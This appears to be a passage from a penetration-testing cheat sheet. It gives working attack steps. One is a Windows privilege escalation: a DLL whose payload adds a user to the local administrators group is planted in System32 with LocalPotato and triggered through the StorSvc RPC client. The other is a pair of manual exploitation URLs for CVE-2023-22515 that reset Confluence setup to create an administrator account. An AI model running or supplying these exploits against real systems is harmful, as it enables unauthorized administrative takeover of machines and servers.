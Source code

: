 Modify the following file and build the solution.

```console
StorSvc\RpcClient\RpcClient\storsvc_c.c
```

```console
#if defined(_M_AMD64)

//#define WIN10
//#define WIN11
#define WIN2019
//#define WIN2022
```

Modify the following file and build the solution.

```console
StorSvc\SprintCSP\SprintCSP\main.c
```

```console
void DoStuff() {

    // Replace all this code by your payload
    STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    CreateProcess(L"c:\\windows\\system32\\cmd.exe",L" /C net localgroup administrators user /add",
        NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, L"C:\\Windows", &si, &pi);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return;
}
```

First get the `paths` from the `environment`, then use `LocalPotato` to place the `malicious DLL`.

```cmd
C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path
C:\> LocalPotato.exe -i SprintCSP.dll -o \Windows\System32\SprintCSP.dll
```

At least trigger `StorSvc` via `RpcClient.exe`.

```cmd
C:\> RpcClient.exe
```

## CVE-2023-22515: Confluence Server and Confluence Data Center Broken Access Control (0-day)

> https://github.com/Chocapikk/CVE-2023-22515

### Manual Exploitation

```console
http://<RHOST>/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
http://<RHOST>/setup/setupadministrator-start.action
```
